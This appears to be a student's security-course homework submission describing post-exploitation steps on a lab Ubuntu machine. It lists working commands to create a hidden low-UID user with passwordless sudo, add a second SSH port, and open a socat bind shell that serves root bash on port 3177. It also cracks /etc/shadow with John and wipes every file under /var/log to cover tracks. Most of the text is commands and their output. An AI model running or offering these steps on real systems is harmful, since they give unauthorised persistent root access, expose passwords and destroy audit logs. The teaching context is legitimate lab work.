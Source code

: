 ## Submission for Unit 6 Advanced Bash Homework

Create a secret user named `sysd`. Make sure this user doesn't have a home folder created.
- `sudo su`
- `useradd sysd`
Give your secret user a password. 
- `passwd sysd`

Give your secret user a system UID < 1000.
- `usermod -u 300 sysd`

Give your secret user the same GID
- `groupmod -g 300 sysd` 

Give your secret user full sudo access without the need for a password.
- `visudo`
- `sysd ALL=(ALL:ALL) NOPASSWD:ALL`
Test that sudo access works without your password

```bash
su sysd
sudo -l

Matching Defaults entries for sysd on ubuntu-desktop-base:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sysd may run the following commands on ubuntu-desktop-base:
    (ALL : ALL) NOPASSWD: ALL
``` 

## Allow ssh access over port 2222.

```bash
nano /etc/ssh/sshd_config
Port 22
Port 2222
``` 

Note the IP address of this system:
- `ifconfig`
- `eth0 IP: 192.168.73.39`
Exit the root accout.
- `exit`
SSH to the machine using your sysd account and port 2222
- `ssh sysd@<192.168.73.39> -p 2222`
Use sudo to switch to the root user
- `sudo su`

### Create a backdoor with socat
- Install socat
 - `apt install socat -y`
- Run Socat command in the background
  - `socat TCP4-Listen:3177,fork EXEC:/bin/bash &`
- Explain each part of the `socat` command:
  - `socat` Calls the socat program
  - `TCP4-Listen:3177` Listen for TCP connections on port `3177`
  - `,fork` Allows multiple TCP connections at once
  - `EXEC:/bin/bash` Run a Bash shell over this connection
  - `&` Run this command in the background
  [1] 6183
- Exit the SSH session
  - `exit`
- Test socat connection from the Ubuntu machine:
  - `$ socat STDIO TCP4:192.168.73.39 -p 3177
whoami
root`
- Close the `socat` connection.
  - `CTRL + C`

## Crack _all_ the passwords
Ssh back to the system using your sysd account
- `ssh sysd@<192.168.73.39>-p 2222`
- Use John to crack the entire /etc/shadow file
    - `sudo su`
    - `john /etc/shadow`

## Cover your tracks
- Use socat and a for loop to clear all system logs.
```bash
$  $ socat STDIO TCP4:172.28.128.49:3177
whoami
root
for i in $(ls /var/log); do echo '' > $i; done

```